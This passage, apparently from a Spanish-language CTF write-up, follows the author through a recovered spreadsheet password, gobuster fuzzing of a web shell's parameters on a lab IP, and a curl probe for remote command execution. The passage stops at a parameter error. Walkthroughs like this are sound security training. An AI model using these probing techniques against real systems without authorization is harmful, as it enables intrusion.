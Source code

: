 Ya tenemos la password del archivo: `john11`, entramos en la hoja de cálculo

![](/assets/img/posts/arroutada/librecalc.png)

Tenemos una nueva ruta, pero al introducirla nos lleva a una página en blanco con código HTTP 200 (que indica que la página cargo con éxito), no vemos nada en el código fuente ni con burpsuite.

Vamos a probar a fuzzear parámetros para comprobar si es vulnerable a ejecución de comandos.

```zsh
gobuster fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -u 192.168.0.249/thejabasshell.php?FUZZ=pwd --exclude-length 0
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://192.168.0.249/thejabasshell.php?FUZZ=pwd
[+] Method:           GET
[+] Threads:          200
[+] Wordlist:         /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Exclude Length:   0
[+] User Agent:       gobuster/3.1.0
[+] Timeout:          10s
===============================================================
2023/11/04 23:33:23 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=33] http://192.168.0.249/thejabasshell.php?a=pwd
```

Encuentra el término `a`, hacemos un curl para ver si nos devuelve el resultado del `pwd`, eso significaría que es vulnerable a ejecución de código remoto.

```zsh
curl 'http://192.168.0.249/thejabasshell.php?a=pwd'
Error: Problem with parameter "b"
 ```

